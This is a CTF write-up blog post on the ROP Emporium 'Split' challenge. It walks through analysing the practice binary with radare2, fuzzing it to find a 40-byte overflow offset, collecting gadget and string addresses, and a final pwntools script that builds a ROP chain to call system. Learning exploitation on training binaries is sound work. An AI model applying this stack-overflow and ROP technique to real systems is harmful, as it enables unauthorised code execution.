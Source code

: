 ```yaml
---
layout: post
title:  "ROP Emporium - Split"
date:   2020-05-15 14:07:20
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named as Split. In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named as **Split**. In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.
I assume that anyone reading this is familiar with the basics of binary exploitation, as i skipped explaining many basic things.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain.

###### Tools Used:


+ ROPGadget 
+ Pwntools  
+ Radare2   
+ dgb& gef
 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with **radare2 framework**.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, so we know shellcode cannot be executed off the stack and the binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions. The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see three interesting functions:

+ **main()**
+ **pwnme()**
+ **usefulFunction()**

So lets disassemble the binary and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name **pwnme()** which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function directly call system with **/bin/ls**, which list the files in current working directory and there is also usefullstring which **/bin/cat flag.txt**. so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary. Generate the unique pattern and send to the program.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


```
As expected the program crashed and we have a valid crash scenario here.We have overwritten rsp with our unique patters.

![source-01](/img/Screenshot_2020-05-15_10-20-53.png){: .align-left}




###### Calculating offset

Copy the value in RSP to pattern offset tool, to get exatch offset
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```

## Building the ROP-Chain

Lets find the building blocks that need to build a ROP chain.

######  UsefulString “/bin/cat flag.txt” 

Using rabin2 to find all the strings in the binary


![source-01](/img/Screenshot_2020-05-15_14-55-41.png){: .align-left}


######  sytem@plt

Using objdump grab the address of system@plt.

![source-01](/img/Screenshot_2020-05-16_07-41-34.png	){: .align-left}


######  pop rdi; ret gadget

I used ROPGadget to find the pop rdi ret.

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}



#### Exploitation 

Now we have everything we need to put together our first ROPChain, let’s craft the payload.

+ Junk + pop_rdi + bin_cat + system_plt

+ b"A" * 40 + 0x0000000000400883 + 0x00601060 + 0x4005e0



Final exploit using pwntools:

```python

 #!/usr/bin/python                                                                                                                                                    
 from pwn import *                                                                                                                                                    
                                                                                                                                                                      
 def main():                                                                                                                                                          
     context.log_level = "info"                                                                                                                                       
     elf = ELF('./split')                #binary path                                                                                                                 
     p = process(elf.path)                                                                                                                                            
     offset = b"A" * 40                  # RIP Offset at 40                                                                                                           
     usefullString = p64(0x00601060)     # Rabin2 -z split                                                                                                            
     system_plt = p64(0x4005e0)          # objdump -d split                                                                                                           
     pop_rdi = p64(0x0000000000400883)   # ROPgadget.py --binary split | grep 'pop rdi'                                                                               
     payload = offset + pop_rdi + usefullString + system_plt                                                                                                          
     p.sendlineafter(">",payload)                                                                                                                                     
     print (p.recvall())                                                                                                                                              
                                                                                                                                                                      
 if __name__ == "__main__":                                                                                                                                           
     main()   
```
Running the exploit!! we got the flag!

![source-01](/img/Screenshot_2020-05-16_13-29-52.png){: .align-left}


###### End 

Thats the end of split challenge,I learned how to build my first simple ROPChain and simple usage of radare2.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium






